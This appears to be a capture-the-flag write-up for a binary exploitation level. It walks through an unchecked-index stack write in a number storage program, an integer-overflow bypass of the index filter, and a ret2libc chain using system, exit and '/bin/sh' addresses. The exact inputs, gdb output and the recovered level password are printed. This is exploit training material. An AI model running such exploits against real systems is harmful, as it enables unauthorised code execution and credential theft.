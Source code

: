
# Welcome to wil's crappy number storage service !

## Program summary
On this level we are provided with a program which has the function of saving passwords at a given index in the stack. As usual we will focus on vulnerabilities.

Input restrictions :

- Valid command
- The index must have a rest after a **% 3**.
- The **number >> 0x18 == 0xb7**, should not satisfy this condition.

The **`store_number()`** function is called with the buffer addr as argument which contains all the numbers saved by storage. Below I show you several small sections in the assembly code, the index input is saved at **`$ebp-0xc`** and then an assignment takes place with the number.

```
08048630 <store_number>:
...
8048666:	e8 7c ff ff ff       	call   80485e7 <get_unum>
804866b:	89 45 f4             	mov    DWORD PTR [ebp-0xc],eax
...
80486c2:	8b 45 f4             	mov    eax,DWORD PTR [ebp-0xc]
80486c5:    c1 e0 02           		shl    eax,0x2
80486c8:	03 45 08             	add    eax,DWORD PTR [ebp+0x8]
80486cb:	8b 55 f0             	mov    edx,DWORD PTR [ebp-0x10]
80486ce:	89 10                	mov    DWORD PTR [eax],edx
```

## Vulnerability

The index input allows to write on a very wide range of the stack without verification upstream, it's an excellent source of vulnerability, if we manage to point it in the right place. 

## Attack design

1. Get Offset

Now we need to find the exact OFFSET to inject our malicious code, that is to say the address of the environment variable that we will create with shellcode. What we will do in order to get the OFFSET is to locate the ret addr of main and calculate the distance from the start of the buffer which serves as a number storage manager.
```
(gdb) b store_number
Breakpoint 1 at 0x8048636
(gdb) backtrace
#0  0x08048636 in store_number ()
#1  0x080488ef in main ()
(gdb) info frame 1
Stack frame at 0xffffd620:
 eip = 0x80488ef in main; saved eip 0xf7e45513
 caller of frame at 0xffffd430
 Arglist at 0xffffd618, args: 
 Locals at 0xffffd618, Previous frame's sp is 0xffffd620
 Saved registers:
  ebx at 0xffffd60c, ebp at 0xffffd618, esi at 0xffffd610, edi at 0xffffd614, eip at 0xffffd61c
(gdb) x $ebp+0x08
0xffffd430:	0xffffd454
```
As explained recently I read on **`$ebp-0x08`** since the addr of the buffer number storage manager resides there.

Buffer that holds numbers 0xffffd454 = 4294956116
EIP location in main stack frame 0xffffd61c = 4294956572

`4294956572 - 4294956116 = 456`

OFFSET will be **456**

`456 >> 2 = 114 or 456 / 4 = 114`

However 114 is not accepted as input since: **114 % 3 = 0**.

But this is not really a problem because in itself, our input is modified after the preflight check, which means that we can play with an overflow. Let's enter the right value so that it overflows with an SHL of 2 to fall back to the initial value 114.
```c
if ((uVar2 % 3 == 0) || (uVar1 >> 0x18 == 0xb7))
{
    puts(" *** ERROR! ***");
    puts("   This index is reserved for wil!");
    puts(" *** ERROR! ***");
    uVar3 = 1;
}
else
{
    *(uint *)(uVar2 * 4 + param_1) = uVar1;
    uVar3 = 0;
}
```

Overflow exploit :

```
unsigned int overflowVal = (std::pow(2, 32) / 4) + 114; -> 1073741938
4 * overflowVal = 456
```


2. Retrieve the **`system()`** address :
```c
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```

3. Retrieve **`exit()`** address :
```c
(gdb) p exit
$1 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
```

4. Find **`"/bin/sh"`** string address in libc-2.15.so using **`find`** command :
```
(gdb) info proc map
process 1857
Mapped address spaces:
	Start Addr   End Addr       Size     Offset objfile
	...
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	...
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
```

Now we are going to store these 3 addresses necessary for the execution of our attack with this faulty storage system.

```
store
...
number 4159090384
index 1073741938
...
number 4159040368
index 115
...
number 4160264172
index 116
```

```
$ cat /home/users/level08/.pass            
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```

> Flag : `7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC`
